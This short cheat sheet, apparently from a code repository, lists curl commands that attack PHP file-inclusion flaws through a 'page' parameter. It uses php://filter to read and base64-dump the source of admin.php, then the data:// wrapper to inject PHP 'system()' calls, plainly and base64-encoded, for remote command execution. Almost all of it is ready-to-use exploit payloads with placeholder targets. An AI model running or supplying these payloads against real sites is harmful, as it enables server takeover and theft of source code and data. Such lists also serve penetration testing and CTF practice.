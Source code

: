 # PHP WRAPPERS
#filter_to_avoid_execution 
```sh
curl http://[site]/[location]/index.php?page=php://filter/resource=admin.php
```

#base64_encoding_to_get_hidden_content
```sh
curl http://[site]/[location]/index.php?page=php://filter/convert.base64-encode/resource=admin.php

echo [base64] | base64 -d
```

#data_remote_code_execution
```sh
curl "http://[site]/[location]/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

#base64_encoded_rce
```sh
echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl "http://[site]/[location]/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```